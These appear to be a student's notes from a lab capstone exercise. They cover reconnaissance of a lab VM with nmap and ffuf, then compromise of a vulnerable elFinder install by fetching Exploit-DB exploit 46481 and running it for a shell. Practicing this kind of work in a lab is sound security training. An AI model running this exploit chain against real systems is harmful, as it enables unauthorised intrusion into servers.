 IP: 
```
192.168.246.46
```

# Objective
**Capstone Exercise**: The next VM, Module Exercise VM 2, is running a vulnerable version of the [elFinder](https://github.com/Studio-42/elFinder) web application whose exploit is available . Once you've found the application base address through directory brute-forcing, modify the exploit to point to the correct application URL and get a shell. The flag can be found in the same folder. Note: Before running the exploit, remember to place a valid JPEG file on your local Kali machine and name it according to the exploit specifications.
# nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 6c:e2:70:9a:61:42:69:59:92:b6:fd:91:5b:78:ca:62 (RSA)
|   256 bd:7a:9a:58:ad:1f:f7:f0:f9:57:d5:2c:b2:47:b9:6b (ECDSA)
|_  256 57:1c:ed:13:a0:d7:5b:61:f8:2d:28:ac:1a:30:a2:68 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

3389/tcp open  ms-wbt-server xrdp

80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.11 - 4.1 (91%), Linux 4.4 (91%), Linux 3.2.0 (90%), Linux 3.16 (90%), Linux 3.13 (89%), Linux 3.10 - 3.12 (87%), Linux 3.10 - 4.11 (87%), Linux 3.12 (87%), Linux 3.13 or 4.2 (87%), Linux 3.16 - 4.6 (87%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Sat Dec 30 11:24:49 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
```

# ffuf
```
                        [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 279ms]
index.html              [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 276ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 278ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 278ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 278ms]
cgi-bin/                [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 273ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 274ms]
seclab                  [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 277ms]
```

# Exploit
```sh
searchsploit -m php/webapps/46481
cp ~/Pictures/field.jpg ./SecSignal.jpg
python2 46481.py http://192.168.246.46/seclab
```

